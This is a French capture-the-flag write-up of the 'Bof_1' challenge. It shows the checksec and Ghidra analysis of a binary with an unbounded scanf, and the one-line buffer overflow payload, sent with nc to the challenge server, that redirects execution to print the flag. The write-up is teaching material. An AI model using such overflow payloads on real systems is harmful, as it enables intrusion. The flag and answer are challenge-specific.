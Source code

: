 # Bof_1

## Analyse

Ce challenge nous offre un binaire nommé `service`, d'après son titre, je sais que je vais devoir exploiter un buffer overflow.
Je commence par analyser le fichier

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ checksec ./service
[*] '/home/aether/Documents/ctf/cyberthreatforce/pwn/Bof_1/service'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ file ./service            
./service: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=235b90b9a6b2b68413c7825c0c236da020a0bd10, for GNU/Linux 4.4.0, not stripped
```

Avec ces commandes, je sais que les adresses dans le binaires seront toujours les mêmes grâce au `No PIE`. De plus, je sais que le binaire est un `x64` compilé en statique.

Un rapide coup de `strings` montre aussi que le flag est potentiellement déjà dans le binaire.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ strings ./service | grep CYBERTF
CYBERTF{H
CYBERTF{YZY}
CYBERTF{_____________________}
```

## Récupération du flag

Depuis Ghidra, on apprend que le flag est affiché par la fonction `magie` après une condition.

```c
void magie(int param_1)
{
  int iVar1;
  undefined8 local_15;
  undefined4 local_d;
  undefined local_9;
  
  local_15 = 0x7b46545245425943;
  local_d = 0x7d595a59;
  local_9 = 0;
  if ((param_1 != -1) && (iVar1 = thunk_FUN_004010e6("CYBERTF{YZY}",&local_15), iVar1 != 0)) {
    puts("CYBERTF{_____________________}");
    return;
  }
  puts("Good Way");
  return;
}
```

Etant donné que le flag est directement affiché via la commande `puts`, il suffit de jump sur l'adresse initilisant les registres pour faire afficher le flag.

```js
                             LAB_004018da                                    XREF[1]:     004018c7(j)  
        /* JUMP ICI */
        004018da 48 8d 05        LEA        RAX,[s_CYBERTF{_____________________}_0049f020]  = "CYBERTF{_____________________}"
                 3f d7 09 00
        004018e1 48 89 c7        MOV        RDI=>s_CYBERTF{_____________________}_0049f020   = "CYBERTF{_____________________}"
        004018e4 e8 07 67        CALL       puts                                             int puts(char * __s)
                 01 00
        004018e9 90              NOP

```

D'après Ghidra l'adresse serait `0x004018da`.

Toujours depuis Ghidra, je récupère le nom de la fonction qui va me permettre de faire un overflow ainsi que son index pour dépasser le tampon.

```js
undefined8 main(void)
{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  
  ignorMe();
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  puts("hello who are you?");
  __isoc99_scanf(&DAT_0049f052,&local_38);
  printf("Hello %s\n",&local_38);
  return 0;
}
```

La variable est `local_38` dans la fonction `__isoc99_scanf` qui ne vérifie pas la longueur qui lui est envoyé.

```js
undefined8        Stack[-0x38]:8 local_38                                XREF[3]:     00401935(W)
```

Il ne me reste plus qu'à overflow avec `0x38` caractère puis de mettre l'adresse sur laquelle je veux tomber pour récupérer le flag.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ python -c "print('A' * 0x38 + '\xda\x18\x40')" | nc 144.217.73.235 21556
hello who are you?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
CYBERTF{B@sic_Buff3r_Ov3rflow}
```

flag: `CYBERTF{B@sic_Buff3r_Ov3rflow}`
